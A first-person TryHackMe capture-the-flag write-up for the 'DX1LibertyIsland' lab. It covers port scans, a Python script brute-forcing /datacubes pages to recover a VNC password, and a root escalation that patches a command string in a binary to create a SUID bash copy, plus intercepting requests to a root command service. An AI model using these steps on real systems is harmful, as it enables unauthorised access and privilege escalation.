



# TryHackMe | DX1LibertyIsland


> Room by [Aquinas](https://tryhackme.com/p/Aquinas) ([room link](https://tryhackme.com/room/dx1libertyislandplde))

> Writeup by [WyattTheUnknown](https://tryhackme.com/p/WyattTheUnknown)

>Difficulty: Medium

This is my first writeup so tell me if I'm doing anything wrong :)

------------------------------

## Intro

This room has been one of the most fun rooms I've played recently on TryHackMe. We start off by fuzzing a directory found in robots.txt to get VNC creds, then exploit a binary that runs commands as root to escalate our privileges. Let's get started!

## Enumeration

We begin with a basic nmap scan to see what ports are open

```
┌──(kali㉿kali)-[~/Ctf/TryHackMe/DX1LibertyIsland/WriteupWorkDir]
└─$ cat nmap/initial  
# Nmap 7.92 scan initiated Mon Oct 24 20:48:45 2022 as: nmap -sC -sV -oN nmap/initial 10.10.126.246
Nmap scan report for 10.10.126.246
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: United Nations Anti-Terrorist Coalition
| http-robots.txt: 2 disallowed entries 
|_/datacubes *
|_http-server-header: Apache/2.4.41 (Ubuntu)
5901/tcp open  vnc     VNC (protocol 3.8)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 20:49:13 2022 -- 1 IP address (1 host up) scanned in 28.29 seconds
```

So we have port 80 (Apache httpd) and port 5901 (VNC)

We can see that there is a robots.txt file on the web server which lists the */datacubes* directory. We can check that out later

We can also run a full scan of all 65535 ports to make sure we don't miss anything

```
┌──(kali㉿kali)-[~/Ctf/TryHackMe/DX1LibertyIsland/WriteupWorkDir]
└─$ cat nmap/all_ports
# Nmap 7.92 scan initiated Mon Oct 24 20:51:42 2022 as: nmap -p- -T4 -vvv -oN nmap/all_ports 10.10.126.246
Warning: 10.10.126.246 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.126.246
Host is up, received syn-ack (0.19s latency).
Scanned at 2022-10-24 20:51:42 MDT for 762s
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     REASON
80/tcp    open     http        syn-ack
924/tcp   filtered unknown     no-response
1842/tcp  filtered netopia-vo4 no-response
5901/tcp  open     vnc-1       syn-ack
7099/tcp  filtered lazy-ptop   no-response
10468/tcp filtered unknown     no-response
13734/tcp filtered unknown     no-response
16232/tcp filtered unknown     no-response
23023/tcp open     unknown     syn-ack
24002/tcp filtered med-fsp-tx  no-response
24287/tcp filtered unknown     no-response
24893/tcp filtered unknown     no-response
25069/tcp filtered unknown     no-response
27461/tcp filtered unknown     no-response
30095/tcp filtered unknown     no-response
34856/tcp filtered unknown     no-response
35843/tcp filtered unknown     no-response
40480/tcp filtered unknown     no-response
40481/tcp filtered unknown     no-response
41327/tcp filtered unknown     no-response
50412/tcp filtered unknown     no-response
53687/tcp filtered unknown     no-response
57510/tcp filtered unknown     no-response
58300/tcp filtered unknown     no-response
60237/tcp filtered unknown     no-response
60392/tcp filtered unknown     no-response
62328/tcp filtered unknown     no-response
63278/tcp filtered unknown     no-response
65453/tcp filtered unknown     no-response

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Oct 24 21:04:24 2022 -- 1 IP address (1 host up) scanned in 762.63 seconds
```

There are a lot of false positives because I ran the scan with the `-T4` option which makes nmap faster but less precise

The only somewhat notable new port here is 23023 which we will check out later

Now that we are done with nmap scans we can take a look at the web server on port 80


At the bottom we see a possible username that we can note down for later

After poking around the different pages we find an interesting `injected.js` script referenced in `/threats.html` but this doesn't lead to anything as the file doesn't exist (strange)


At `/badactors.html` we find a list of so called "badactors" that we can maybe use as a wordlist or for something else later


Also if we look at the source we can see a comment that doesn't really have anything to do with the room but is funny nonetheless ;)


As there are no more pages referenced on the main page, we can start to try and brute force some directories with `ffuf` to see if there are any hidden ones

```
┌──(kali㉿kali)-[~/Ctf/TryHackMe/DX1LibertyIsland/WriteupWorkDir]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.126.246/FUZZ            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.126.246/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 189ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 197ms]
robots.txt              [Status: 200, Size: 95, Words: 17, Lines: 2, Duration: 187ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 210ms]
:: Progress: [20469/20469] :: Job [1/1] :: 206 req/sec :: Duration: [0:01:39] :: Errors: 0 ::
```

This doesn't really give us much more than what we already knew and I could have gone farther by specifying different extensions (like .txt or .html) but I was pretty sure `/datacubes` that we found in robots.txt was the way to go so I was getting eager to check it out

Before going down this path I just quickly wanted to look at port 23023 which turned out to be seemingly another web server but it gave the same response no matter what path you specified so it was a dead end for the time being


After googling to check if the version of VNC on port 5901 had any vulnerabilities (it doesn't seem to), I moved on to `/datacubes`

## Web Server Exploitation

The first thing I did was look through robots.txt in full this time to see if there was anything that nmap didn't catch

We can see that there is a message left by someone named Alex noting that instead of blocking crawlers in robots.txt, they should just block access altogether


If we finally head over to `/datacubes`, we are redirected to `/datacubes/0000/` and greeted with a promising message:


What I found interesting is the fact the we are now on `/datacubes/0000/` and shown this message

If this is `0000` then there should be `0001` or `0002` and so on. Right?

Sure enough, after trying the first couple manually I found `/datacubes/0011/`


We can see that they were truthful in saying creds were redacted, but maybe if we brute force more pages we will find some that they *forgor* &#x1f480;

I made a simple python script to do so:

```python
import requests

target = "10.10.126.246"

for i in range(0, 10000):
    r = requests.get(f"http://{target}/datacubes/" + format(i, '04'))
    if r.status_code == 200:
        print(format(i, '04') + '\n' + r.text)
```

Output:
```
┌──(kali㉿kali)-[~/Ctf/TryHackMe/DX1LibertyIsland/WriteupWorkDir]
└─$ python3 brute.py      
0000
Liberty Island Datapads Archive<br/><br/>
All credentials within *should* be [redacted] - alert the administrators immediately if any are found that are 'clear text'<br/><br/>
Access granted to personnel with clearance of Domination/5F or higher only.
0011
attention nightshift:<br/>
van camera system login (same as old login): [redacted]<br/>
new password: [redacted]<br/><br/>

PS) we *will* beat you at darts on saturday, suckas.
0068
So many people use that ATM each day that it's busted 90% of the time.  But if
it's working, you might need some cash today for the pub crawl we've got
planned in the city.  Don't let the tourists get you down.  See you there
tonight, sweetie.<br/><br/>

Accnt#: [redacted]<br/>
PIN#: [redacted]<br/><br/>

Johnathan - your husband to be.<br/><br/>

PS) I was serious last night-I really want to get married in the Statue.  We
met there on duty and all our friends work there.
0103
Change ghermann password to [redacted].  Next week I guess it'll be
[redacted].  Strange guy...
0233
From: Data Administration<br/>
To: Maintenance<br/><br/>

Please change the entry codes on the east hatch to [redacted].<br/><br/>

NOTE: This datacube should be erased immediately upon completion.
0451
Brother,<br/><br/>

I've set up <b>VNC</b> on this machine under jacobson's account. We don't know his loyalty, but should assume hostile.<br/>
Problem is he's good - no doubt he'll find it... a hasty defense, but
since we won't be here long, it should work.  <br/><br/>

The VNC login is the following message, 'smashthestate', hmac'ed with my username from the 'bad actors' list (lol). <br/>
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password.

- JL
```

## Initial Access

I stopped the script on the last one as it reveals important info that we can leverage (realistically we would want to still run the whole thing to see if there was anything else but I was being impatient)

It says that the VNC login for Jacobson's account is 'smashthestate' hmac'ed with JL's username from the badactors list as the key and MD5 as the algorithm. The first 8 characters are the password.

We can first search for JL's username in the list we found before

```
apriest
aquinas_nz
cookiecat
craks
curley
darkmattermatt
etodd
gfoyle
grank
gsyme
haz
hgrimaldi
hhall
hquinnzell
infosneknz
jallred
jhearst
jlebedev
jooleeah
juannsf
killer_andrew
lachland
leesh
levelbeam
mattypattatty
memn0ps
nhas
notsus
oenzian
roseycross
sjasperson
sweetcharity
tfrase
thom_seven
ttong
```

It seems like 'jlebedev' is the most fitting for the initials 'JL'

Now we can go over to CyberChef and follow the steps described to get the password


As JL said that this was the password for Jacobson's account, we can infer that the username be AJacobson from the footers of the web pages that we saw earlier


Now that we have all the credentials we need, we can log into the box via VNC

I used Remmina as the VNC client as it seems to be the most reliable

Remember to specify the port number


We are now finally on the box


Although the theme makes it look like Windows, we are definitely on a Linux machine as the nmap scans told us so and we can quickly find that the terminal emulator is running a bash shell

Running `ls` also gives it away real quick


## Privilege Escalation

The first thing that stood out to me when logging in was the `badactors-list` binary on the desktop

It's owned by us and doesn't have any weird permissions but it's still worth checking out

```
C:\home\ajacobson\Desktop> ls -la badactors-list 
-rwxr-xr-x 1 ajacobson ajacobson 6941856 Oct 22 05:36 badactors-list
```

Upon running, it seems to connect to that same port 23023 that we found earlier and then provide a way for us to edit the `badactors.txt` file that we also used earlier


If we edit the list then look at the actual `badactors.txt` file on the machine (which is located where it should be at `/var/www/html/badactors.txt`) we can see that the file is owned by root!


```
C:\var\www\html> ls -la
total 360
drwxr-xr-x 3 root     root       4096 Oct 22 05:35 .
drwxr-xr-x 3 root     root       4096 Oct 22 03:13 ..
-rw-r--r-- 1 www-data www-data   1238 Oct 22 14:08 badactors.html
-rw-r--r-- 1 root     root        321 Oct 25 05:11 badactors.txt
drwxr-xr-x 8 www-data www-data   4096 Oct 22 14:08 datacubes
-rw-r--r-- 1 www-data www-data    909 Oct 22 14:08 index.html
-rw-r--r-- 1 www-data www-data  78252 Oct 22 14:08 MorePerfectDOSVGA.ttf
-rw-r--r-- 1 www-data www-data     95 Oct 22 14:08 robots.txt
-rw-r--r-- 1 www-data www-data    401 Oct 22 14:08 style.css
-rw-r--r-- 1 www-data www-data   5939 Oct 22 14:08 terrorism.html
-rw-r--r-- 1 www-data www-data   4140 Oct 22 14:08 threats.html
-rw-r--r-- 1 www-data www-data 235895 Oct 22 14:08 unatco.png
```

```
C:\var\www\html> cat badactors.txt
apriest
aquinas_nz
cookiecat
craks
curley
darkmattermatt
etodd
gfoyle
grank
gsyme
haz
hgrimaldi
hhall
hquinnzell
infosneknz
jallred
jhearst
jlebedev
jooleeah
juannsf
killer_andrew
lachland
leesh
levelbeam
mattypattatty
memn0ps
nhas
notsus
oenzian
roseycross
sjasperson
sweetcharity
tfrase
thom_seven
ttong
WyattTheUnknown
```

This means we can write to files as root!

So now that we know we have root privileges, how can we turn this into arbitrary code execution?

The answer is strings in the application!

If we run `strings` on the binary, pipe the output to `less` and search for `badactors.txt` we find multiple commands ***just flat out in the binary*** along with a bunch of other ASCII text


The command shown in the image is what outputs the content in the textbox to the file

It seems like this application renders HTML and we can find the source of the page in the binary as well



Now that we've found how the binary writes to the file, we can edit the command to make a SUID copy of Bash for us

In order for this to work we have to make sure we don't add or remove bytes but just *change* them so the program doesn't segfault

```
C:\var\www\html> python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> len("base64 -d > /var/www/html/badactors.txt")
39
>>> len("cp /bin/bash /tmp/a  && chmod +s /tmp/a")
39
>>> 
```

I decided to use Vim as my editor of choice


Now all we have to do is hit 'Update List' to trigger the command


The shell is a little unstable but does the trick


## Extra

I just wanted to add a quick extra bit here to showcase how the webserver works and a different way to priv esc with the same vector

In order to capture the request the application makes to port 23023 which contains the authentication creds, we can set the `http_proxy` environment variable to be localhost and a port of our choosing then listen on the port with netcat and run the binary (all this on the target machine)

Syntax:
```
export http_proxy=localhost:4444
nc -lnvp 4444 (in new terminal window)
./badactors-list (back in original window)
```

In the netcat listener we can see a post request being made with a `Clearance-Code` header containing a value and also a `directive` parameter with a command to be executed. One of the same ones we saw earlier in the binary!



So now we could make this same request with our own command to get root (as we already know the webserver runs as root)

We can now also fiddle around with acting as the webserver to see how the application works

Response with content:


Adding more content:


We can see that the content is base64 encoded (like what we saw in the earlier command that we modified in the binary):





Here's a video showcasing this whole process (sorry for only being in 480p):

[Link](https://youtu.be/3lIQemjE5n4)

## End

Thank you for bearing with me and reading my (first) writeup!
Happy Hacking!

>`-WyattTheUnknown`<br>

